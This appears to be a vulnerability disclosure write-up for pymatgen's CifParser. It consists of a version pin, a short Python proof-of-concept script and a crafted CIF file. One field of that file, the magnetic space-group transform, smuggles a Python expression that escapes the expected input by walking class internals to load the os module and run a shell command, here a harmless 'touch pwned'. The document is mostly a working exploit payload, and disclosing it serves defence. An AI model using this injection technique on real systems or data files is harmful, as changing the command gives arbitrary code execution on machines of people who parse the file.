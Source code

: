 ![Test to reproduce the vulnerability locally with a touch pwned command that creates a file named pwned](./images/screenshot03.png)

**Environment Setup:**
```bash
# requirements.txt
pymatgen==2024.1.26
```

**Proof of Concept Script:**
```python
from pymatgen.io.cif import CifParser
parser = CifParser("exploit.cif")
structure = parser.parse_structures()
```

**Malicious CIF Payload:**
```cif
data_Example
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_c    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M 'P 1'
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy
 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c \'touch pwned\'");0,0,0'
_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```
